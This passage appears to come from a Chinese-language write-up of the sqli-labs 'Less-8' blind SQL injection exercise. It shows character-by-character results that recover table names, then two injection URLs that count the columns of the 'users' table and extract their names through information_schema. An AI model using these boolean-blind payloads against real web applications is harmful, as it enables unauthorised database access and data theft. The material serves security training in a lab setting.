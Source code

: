 ```sql
2,5,N
2,6,t
2,6,T
2,7,s
2,7,S
3,1,u
3,1,U
3,2,s
3,2,S
3,3,e
3,3,E
3,4,r
3,4,R
3,5,s
3,5,S
```

- 按顺序整理->`emails,referers,uagents,users`

```sql
#获取users表的字段个数
http://8.137.60.154:8082/Less-8/?id=1'and ((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3)--+

#获取users表的字段名
http://8.137.60.154:8082/Less-8/?id=1' and substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit x,1),y,1) = "z" --+
```

![image-20241007043008570](./assets/image-20241007043008570.png)
